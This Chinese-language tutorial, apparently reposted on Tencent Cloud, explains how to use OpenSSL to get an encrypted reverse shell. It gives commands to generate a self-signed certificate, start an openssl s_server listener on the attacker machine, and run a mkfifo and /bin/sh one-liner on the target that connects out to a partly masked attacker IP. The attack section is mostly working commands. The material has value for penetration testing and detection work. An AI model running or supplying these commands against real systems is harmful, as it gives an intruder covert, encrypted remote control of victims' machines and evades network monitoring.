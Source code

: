 ### **OpenSSL 简介**

在计算机网络上，OpenSSL 是一个开放源代码的软件库包，应用程序可以使用这个包来进行安全通信，避免窃听，同时确认另一端连接者的身份。

> SSL 协议要求建立在可靠的传输层协议 (TCP) 之上。SSL 协议的优势在于它是与应用层协议独立无关的，高层的应用层协议 (例如：HTTP，FTP，TELNET 等) 能透明地建立于 SSL 协议之上。SSL 协议在应用层协议通信之前就已经完成加密算法、通信密钥的协商及[服务器](https://cloud.tencent.com/act/pro/promotion-cvm?from_column=20065&from=20065)认证工作。在此之后应用层协议所传送的数据都会被加密，从而保证通信的私密性。

在利用 OpenSSL 反弹 shell 之前需要先生成自签名证书：

```
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365 -nodes

```

生成自签名证书时会提示输入证书信息，如果懒得填写可以一路回车即可：

![](https://ask.qcloudimg.com/http-save/yehe-5957324/0mtt91ytiz.png)

### **使用 OpenSSL 反弹加密 shell**

实验环境：Linux

目标机：

• 系统：Linux•IP：192.168.1.8

攻击机：

• 系统：Linux•IP：47.xxx.xxx.72

假设我们从目标机反弹 shell 到攻击机 。首先需要利用上一步生成的自签名证书，在攻击机上使用 OpenSSL 监听一个端口，在这里使用 2333 端口：

```
openssl s_server -quiet -key key.pem -cert cert.pem -port 2333

```

![](https://ask.qcloudimg.com/http-save/yehe-5957324/azn6rqknbm.png)

此时 OpenSSL 便在攻击机的 2333 端口上启动了一个 SSL/TLS server。

这时在目标机进行反弹 shell 操作，命令为：

```
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 47.xxx.xxx.72:2333 > /tmp/s; rm /tmp/s

```

![](https://ask.qcloudimg.com/http-save/yehe-5957324/kzhpp0bbox.png)

这样攻击者便使用 OpenSSL 反弹了目标机一个加密的 shell。

本文参与 [腾讯云自媒体分享计划](https://cloud.tencent.com/developer/support-plan)，分享自微信公众号。

原始发表：2021-04-24，如有侵权请联系 [cloudcommunity@tencent.com](mailto:cloudcommunity@tencent.com) 删除